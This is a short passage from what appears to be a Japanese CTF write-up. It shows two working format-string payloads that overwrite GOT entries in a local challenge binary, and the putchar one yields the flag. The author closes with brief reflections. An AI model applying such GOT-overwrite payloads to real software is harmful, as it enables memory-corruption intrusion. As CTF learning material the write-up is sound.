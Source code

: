  - コマンドは次の通り
```bash=
$ echo -e '\xf0\x99\x04\x08\xf2\x99\x04\x08%34441x%6$hn%33139x%7$hn' | ./q4
~~ 略 ~~~
Do you want the flag?
```

 - 通らない...
 - 一応putcharも試す
```bash=
$ echo -e '\xe0\x99\x04\x08\xe2\x99\x04\x08%34441x%6$hn%33139x%7$hn' | ./q4
~~ 略 ~~~
FLAG_~~~ 略 ~~~
```

 - 通った!!!!!!!

# 感想
 - 通せたのは嬉しい
 - printfは何故に通らなかったの?
 - ハリネズミ本を見返したら, 正しくはformat string attackではなく, got overwriteだったらしい